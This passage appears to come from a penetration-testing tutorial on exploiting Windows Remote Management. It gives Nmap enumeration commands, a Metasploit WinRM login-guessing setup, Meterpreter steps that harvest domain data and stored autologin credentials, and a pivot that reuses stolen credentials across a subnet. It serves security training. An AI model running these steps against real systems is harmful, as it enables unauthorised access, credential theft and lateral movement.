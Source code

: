 This shows how WinRM exploitation fits into a full penetration testing workflow.

#### **Phase 1: Discovery with Nmap**
```bash
# Initial network discovery
nmap -sS -O target_ip
# Operating system detection

# Targeted port scanning
nmap -p 5985,5986 --script winrm-* target_ip
# WinRM-specific scripts for detailed enumeration

# Service version detection
nmap -p 5985 -sV --script winrm-auth-methods target_ip
# Detailed service information
```

**What This Gives You:**
- Operating system identification (Windows version)
- WinRM service confirmation and version
- Authentication methods supported
- Additional service information

#### **Phase 2: Exploitation with Metasploit**
```bash
# Based on Nmap results, proceed with Metasploit attack
msfconsole -q
use auxiliary/scanner/winrm/winrm_login
set RHOSTS target_ip

# If Nmap showed specific Windows version, adjust wordlists
# For Windows Server: focus on administrator, admin accounts
# For Windows 10/11: try user, guest, default accounts

exploit
```

**Integration Benefits:**
- **Informed Targeting:** Use OS information to guide attack strategy
- **Efficient Exploitation:** Focus on most likely attack vectors
- **Comprehensive Coverage:** Multiple tools provide different perspectives

#### **Phase 3: Post-Exploitation Activities**
```bash
# After gaining meterpreter access
meterpreter > sysinfo
# Confirm system information matches Nmap results

meterpreter > run post/windows/gather/enum_domain
# Domain enumeration if in AD environment

meterpreter > run post/windows/gather/credentials/windows_autologin
# Look for additional credentials

# Pivot to other systems using discovered credentials
use auxiliary/scanner/winrm/winrm_login
set RHOSTS 192.168.1.0/24
set USERNAME discovered_user
set PASSWORD discovered_pass
exploit
```
